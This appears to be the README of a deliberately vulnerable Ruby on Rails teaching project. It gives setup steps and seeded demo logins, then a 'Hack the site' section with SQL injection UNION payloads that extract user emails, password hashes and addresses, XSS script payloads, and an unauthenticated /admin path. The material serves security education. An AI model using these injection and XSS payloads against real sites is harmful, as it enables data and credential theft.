 # SAP Project Insecure

This is my Ruby On Rails Project this is the insecure code 

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Downloads

The things you need before installing the software.

#### For Windows 
* Ruby Installer: https://rubyinstaller.org/ (The version i was using is 3.1.2)
* SQLite: https://www.sqlite.org/index.html (The version i was using is3.39.4)
#### For Mac and others)
please follow this guide: https://www.ruby-lang.org/en/downloads/

### Installation
When ruby is installed run these commands to run the application

Open up command terminal (cmd)
check the version of ruby and ruby gem by 

```
$gem -v
```
```
$ruby -v
```

Next install rails by using 

```
$gem install rails
```
When this is complete check the version of rails (im using rails 7.0.4.3)
gem install rails

```
$rails -v 
```
## Usage

To run the application simply download the github secure project and insecure project. 
Once downloaded redirect to the directory the project is saved in 
make sure you are in the application directory, Once in the directory run bundle install to install all the gems needed

```
$ bundle install
```

There will be some pending migrations that will need to be migrated before running 
```
$ rails db:migrate
```

## Seed the application 
Run this to seed the application with users 
```
$ rake seed_data
```
This will give you admin users and normal users 

### Users details  
These are the user details that have been generated There are more if you want to check the rake file found in lib/tasks/seed_data.rake
#### Admin Users
username: jenny@gmail.com
password: pancake

#### Users
username: kev@gmail.com
password: coffeecake

username: slvy@gmail.com
password: cake

### Run localhost 
Once installed and seeded you can choose to run it on a localhost or through an ip
To run it on a localhost just type in the terminal 
```
$ rails server
```
This will start the Rails server, and you can access your application by opening a web browser and going to http://localhost:3000

### Run through local ipv4
Find your Ipv4 address
```
$ ip config
```
This will run it on port 3000 

```
$ rails s -b 0.0.0.0
```
In order to connect to the site use your ipv4 address and the port
Ip will look like 192.111.1.111:3000 This is a sample and fake ipv4 address and will be different for you 
You can access your application by opening a web browser and typing your ip along with the port

### Branches

* Secure
* Insecure

## Additional Documentation and Acknowledgments
if there are any issues with installations please follow the ruby on rails guide documentation
* https://www.ruby-lang.org/en/downloads/
* https://guides.rubyonrails.org/getting_started.html


# Hack the site 

## Info About Insecure and Secure App
Here I intentionally made the button look out dated to show a security flaws. This is the insecure site so it will look differnt than to the secure site where the layout and looks are being validated and are using proper buttons such as primary and secondary buttons. naming conventions have stayed the same to be able to compare between the code only difference is the body is called content on the insecure app while its called context on the secure one There are no authentication between sites like going to /admin on the url.

## SQL Inject the Search button using the commands!
This will display the email and password:
```
Cake') union select 1, email, encrypted_password, null, null, true from users --
```

This will display the email and address:
```
Cake') union select 1, email, address, null, null, true from users --
```
This will display the email, password and users that are Admin:
```
Cake') union select 1, email, encrypted_password, null, null, true from users where admin = true --
```
This will display private posts:
```
Cake' or 1=1)
```
## XSS the subscribe button in the Home page using the command!
This will inject an alert script:
```
<script>alert('XSS Attack')</script>
```
This will run a script to change the css properties (background color to red):
```
<script>function changeBackground(color) { document.body.style.background = color; } window.addEventListener("load",function() { changeBackground('red') });</script>
```
## Broken Access Control
Access the admin page by typing this at the end of the url
```
/admin
```
### sample Url
This is wht the url will look like when you type the /admin at the end of the url
```
192.111.1.111:3000/admin
```
```
http://localhost:3000/admin
```

